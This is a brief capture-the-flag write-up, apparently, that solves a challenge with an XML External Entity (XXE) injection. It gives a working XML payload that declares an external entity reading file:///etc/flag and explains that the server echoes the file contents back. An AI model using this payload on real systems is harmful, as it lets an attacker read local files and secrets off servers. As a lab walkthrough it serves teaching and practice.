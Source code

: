 XML eXternal Entities! You can use your browser's devtools, any http request client that supports XML or burp suite to change the request to:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY pwn SYSTEM 'file:///etc/flag'>] >
    <root>
	<query>
	    rick roll! &pwn;
	</query>
    </root>
```

And you will get as a response the file contents with the flag!!
